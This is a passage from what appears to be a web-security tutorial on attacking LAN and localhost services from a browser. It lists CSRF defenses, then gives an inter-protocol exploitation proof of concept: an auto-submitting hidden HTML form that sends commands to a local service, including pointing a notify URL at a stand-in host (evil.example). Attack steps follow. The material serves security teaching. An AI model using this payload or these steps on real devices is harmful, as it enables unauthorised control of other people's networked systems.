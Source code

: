 * Many devices finally ship CSRF tokens & `SameSite` cookies — but **lots still don’t**, especially cheap IoT.
* Some UIs are behind **Basic/Digest** auth; you can’t supply creds cross-site, but defaults may be enabled/lax.

### Defenses

* **CSRF tokens** on every state-changing route. Validate **Origin/Referer**.
* **SameSite=Strict** on admin cookies.
* Bind admin UI to **localhost** + require **client certs** or **pairing tokens**.
* Deny requests with **cross-site `Sec-Fetch-Site: cross-site`** and unexpected **`Sec-Fetch-Mode`**.

---

## 6) Inter-Protocol Exploitation (Non-HTTP Services)

**Idea:** Send HTTP-looking traffic to a **non-HTTP service** on the LAN/localhost that **tolerates junk** before real commands. Some text-based protocols ignore unknown leading lines, then process the next well-formed command. Your browser can’t read responses (SOP), but:

* You can **perform actions** (write/flush/reset),
* Or sometimes **induce XSS** in a co-hosted web app that echoes error text.

### PoC sketch: POST with `text/plain` carrying protocol commands

(works only if service accepts HTTP headers before its own protocol)

```html
<form action="http://127.0.0.1:12345"
      method="POST" enctype="text/plain" target="hidden">
  <!-- Leading HTTP headers get ignored by tolerant services -->
  AUTH secret-token
  SET notify_url https://evil.example/hit
  FLUSH
</form>
<iframe name="hidden" style="display:none"></iframe>
<script> document.forms[0].submit(); </script>
```

**Reality check (2025):**

* Many **service ports are browser-blocked**; this still pops up on **custom admin daemons** and odd ports that accept text.
* **WebSockets** won’t help unless the service completes the WS handshake.

### HACK STEPS

1. From your port scan, pick **text-based services** on unusual ports.
2. Try **`<form enctype="text/plain">`** or **`fetch` with `no-cors`** and suitable body.
3. Look for **side effects** (device behavior changes, follow-up HTTP hits to your server).
4. If co-hosted with web, attempt to **echo HTML** in an error path to trigger XSS in the browser (rare but possible).
